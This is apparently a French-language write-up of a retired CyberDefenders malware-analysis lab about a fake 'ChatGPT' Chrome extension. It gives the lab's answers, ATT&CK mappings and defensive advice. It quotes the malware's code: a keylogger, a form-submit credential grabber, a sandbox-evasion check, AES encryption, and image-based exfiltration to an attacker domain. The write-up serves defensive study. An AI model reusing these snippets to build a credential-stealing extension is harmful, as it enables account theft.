




# Day 006 — FakeGPT Lab

| | |
|---|---|
| Plateforme | [CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/fakegpt/) |
| Catégorie | Malware Analysis |
| Difficulté | Easy — Retired |
| Date | 2026-08-16 |
| Outils | Éditeur de texte, CyberChef (ExtAnalysis / CRX Viewer optionnels) |

Lab retiré, donc les réponses sont incluses.

## Contexte

Des employés ont installé une fausse extension Chrome nommée "ChatGPT". Depuis, des comptes sont compromis et des données fuient. L'objectif : analyser le code de l'extension (analyse statique, sans l'exécuter) et identifier ses composants malveillants.

L'extension était déjà décompressée en fichiers lisibles : `manifest.json`, `loader.js`, `app.js`, `crypto.js`, `ui.html`, et un `img` (GIF). Aucun outil spécial n'est nécessaire — un éditeur de texte pour lire le JavaScript et CyberChef pour décoder le base64 suffisent.

## Méthode

L'analyse suit un fil logique : le `manifest.json` d'abord (les permissions trahissent l'intention), puis l'ordre d'exécution du code — `loader.js` (démarrage) charge `app.js` (le cœur), qui appelle le chiffrement. On traque les mots-clés typiques : `atob`/`btoa` (encodage), `addEventListener` (capture), `CryptoJS`/`AES` (chiffrement), `new Image()`/`.src` (exfiltration), `navigator.plugins` (anti-analyse).

Les fichiers analysés : `manifest.json` (les permissions déclarées), `loader.js` (le script de démarrage, chargé en premier), `app.js` (le cœur, injecté dans toutes les pages). Les réponses ci-dessous suivent l'ordre des questions du lab.







### Q1 — Encodage masquant les URLs

Dans `app.js`, la cible est encodée pour ne pas apparaître en clair :

```javascript
var _0x5eaf = function(_0x5fa1) { return btoa(_0x5fa1); };
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```

`btoa` est la fonction JavaScript d'encodage base64. Décodée avec CyberChef (From Base64), `d3d3LmZhY2Vib29rLmNvbQ==` donne `www.facebook.com`.



**Réponse : `base64`** — ATT&CK T1027 (Obfuscated Files or Information).

### Q2 — Site surveillé

```javascript
if (targets.indexOf(window.location.hostname) !== -1) { ... }
```

L'extension ne s'active que si la page courante est la cible décodée au Q1. Cela la rend furtive : inactive partout ailleurs.

**Réponse : `www.facebook.com`**

### Q3 — Élément HTML utilisé pour l'exfiltration

```javascript
function sendToServer(encryptedData) {
    var img = new Image();
    img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
    document.body.appendChild(img);
}
```

Les données volées sont placées dans l'URL d'une image chargée depuis le serveur de l'attaquant. Charger une image est une action banale qu'aucun filtre ne bloque : l'exfiltration se déguise en trafic normal.

**Réponse : `img` (balise ``)** — ATT&CK T1041 (Exfiltration Over C2 Channel).

### Q4 — Première condition de désactivation

Dans `loader.js`, l'extension vérifie si elle est observée avant d'agir :

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
    alert("Virtual environment detected. Extension will disable itself.");
}
```

Les sandbox et navigateurs automatisés n'ont pas de plugins : la première condition détecte cet environnement d'analyse et l'extension se désactive.

**Réponse : `navigator.plugins.length === 0`** — ATT&CK T1497 (Virtualization/Sandbox Evasion).

### Q5 — Événement capturé sur les formulaires

```javascript
document.addEventListener('submit', function(event) {
    let username = formData.get('username') || formData.get('email');
    let password = formData.get('password');
    exfiltrateCredentials(username, password);
});
```

L'événement `submit` intercepte les identifiants au moment où la victime valide le formulaire de connexion, en clair.

**Réponse : `submit`**

### Q6 — Capture des frappes clavier

```javascript
document.addEventListener('keydown', function(event) {
    var key = event.key;
    exfiltrateData('keystroke', key);
});
```

`keydown` se déclenche à chaque touche : c'est un keylogger.

**Réponse : `keydown`** — ATT&CK T1056.001 (Keylogging).

### Q7 — Domaine d'exfiltration

Dans la même fonction `sendToServer` (voir Q3), l'URL de destination révèle le serveur de l'attaquant :

```javascript
img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
```

**Réponse : `Mo.Elshaheedy.com`** — ATT&CK T1041 (Exfiltration Over C2 Channel).

### Q8 — Fonction d'exfiltration des identifiants

```javascript
function exfiltrateCredentials(username, password) {
    const payload = { user: username, pass: password, site: window.location.hostname };
    const encryptedPayload = encryptPayload(JSON.stringify(payload));
    sendToServer(encryptedPayload);
}
```

**Réponse : `exfiltrateCredentials(username, password)`** — ATT&CK T1005 (Data from Local System).

### Q9 — Algorithme de chiffrement

```javascript
function encryptPayload(data) {
    const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
    ...
}
```

Le butin est chiffré en AES avant l'envoi (vrai chiffrement, à distinguer du base64 du Q1 qui n'était que du masquage). Détail : la clé `SuperSecretKey123` est en dur, donc les données volées seraient déchiffrables.

**Réponse : `AES`**

### Q10 — Données de session / authentification accédées

Retour au `manifest.json` : un simple « assistant IA » n'a aucune raison de demander l'accès aux cookies de tous les sites.

```json
"permissions": ["tabs", "http://*/*", "https://*/*", "storage", "webRequest", "webRequestBlocking", "cookies"]
```

La permission `cookies` autorise l'extension à lire les cookies de session, donc à détourner des sessions déjà authentifiées (sans mot de passe).

**Réponse : `cookies`** — ATT&CK T1539 (Steal Web Session Cookie).

## Récapitulatif

| Q | Élément | Réponse |
|---|---|---|
| 1 | Encodage des URLs | `base64` |
| 2 | Site surveillé | `www.facebook.com` |
| 3 | Élément HTML d'exfiltration | `img` |
| 4 | 1ʳᵉ condition de désactivation | `navigator.plugins.length === 0` |
| 5 | Événement sur formulaire | `submit` |
| 6 | Capture des frappes | `keydown` |
| 7 | Domaine d'exfiltration | `Mo.Elshaheedy.com` |
| 8 | Fonction d'exfiltration | `exfiltrateCredentials(username, password)` |
| 9 | Chiffrement | `AES` |
| 10 | Données de session | `cookies` |

Chaîne complète :

```
faux "ChatGPT" installé  ->  loader.js vérifie l'absence de sandbox (anti-analyse)
   ->  app.js s'active uniquement sur www.facebook.com
   ->  vol des identifiants (submit) + keylogging (keydown) + cookies
   ->  chiffrement AES  ->  exfiltration via  vers Mo.Elshaheedy.com
```

Mapping MITRE ATT&CK : T1176 (Browser Extensions), T1497 (Sandbox Evasion), T1027 (Obfuscation), T1056.001 (Keylogging), T1539 (Steal Web Session Cookie), T1005 (Data from Local System), T1041 (Exfiltration Over C2 Channel).

## Ce que je retiens

Le lab tient sur une distinction : le base64 sert à **se cacher** (masquer la cible aux yeux de l'analyste), l'AES sert à **protéger** (chiffrer le butin contre l'interception). Confondre les deux, c'est rater la logique. Le reste s'obtient en lisant le manifest puis en suivant l'exécution — aucune exécution du malware n'est nécessaire, tout est dans le code. L'exfiltration par balise `` est le détail le plus élégant : voler en se faisant passer pour un simple chargement d'image.

## Côté défense

- Appliquer le principe du moindre privilège aux extensions : une extension dont les permissions (ici `cookies`, `<all_urls>`) ne correspondent pas à sa fonction annoncée doit être bloquée.
- Gérer les extensions autorisées par politique d'entreprise (liste blanche via GPO/Chrome policy).
- Bloquer le domaine d'exfiltration `Mo.Elshaheedy.com` sur le proxy.
- Surveiller les requêtes `` vers des domaines externes portant de longs paramètres encodés.
